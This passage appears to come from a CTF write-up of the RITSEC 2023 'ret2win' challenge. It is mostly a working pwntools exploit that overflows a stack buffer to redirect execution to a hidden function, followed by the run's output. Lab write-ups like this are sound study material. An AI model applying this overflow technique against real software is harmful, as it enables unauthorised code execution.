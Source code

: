 - Function `supersecrettoplevelfunction()` memory address: `0x401196`

**Finally, we can write a Python script to exploit it locally:**
```py
#!/usr/bin/env python3
from pwn import *

def main():
    elf = ELF('./ret2win')
    # Local
    r = process(elf.path)
    # Remote
    # r = remote('ret2win.challenges.ctf.ritsec.club', 1337)

    padding = b'A' * 32

    # 0xcafebabe, 0xc0debabe RBP register in CMP instruction in function `supersecrettoplevelfunction()`
    # cmp1 = p64(0xcafebabe)
    # cmp2 = p64(0xc0debabe)
    cmp1 = b'\xbe\xba\xfe\xca'
    cmp2 = b'\xbe\xba\xde\xc0'

    supersecrettoplevelfunction = p64(elf.symbols.supersecrettoplevelfunction)

    # Stack: padding -> RBP: cmp1 + cmp2 -> RIP: supersecrettoplevelfunction()
    payload = padding + cmp1 + cmp2 + supersecrettoplevelfunction
    log.info(f'Payload: {payload}')

    # For GDB debug
    with open('payload', 'wb') as file:
        file.write(payload)

    # r.sendline(payload)
    r.sendlineafter(b'!!\n', payload)
    print(r.recvall())
    r.interactive()

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023/BIN-PWN/ret2win)-[2023.04.02|23:50:12(HKT)]
└> python3 solve.py
[*] '/home/siunam/ctf/RITSEC-CTF-2023/BIN-PWN/ret2win/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Starting local process '/home/siunam/ctf/RITSEC-CTF-2023/BIN-PWN/ret2win/ret2win': pid 396927
[*] Payload: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xbe\xba\xfe\xca\xbe\xba\xde\xc0\x96\x11@\x00\x00\x00\x00\x00'
[+] Receiving all data: Done (186B)
[*] Stopped process '/home/siunam/ctf/RITSEC-CTF-2023/BIN-PWN/ret2win/ret2win' (pid 396927)
b'[*] Good start AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xbe\xba\xfe\xca\xbe\xba\xde\xc0\x96\x11@, now do some damage :) \n[*]  if you figure out my address, you are hired.\n[!!] You are good but not good enough for my company\n'
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ 
[*] Got EOF while sending in interactive
```
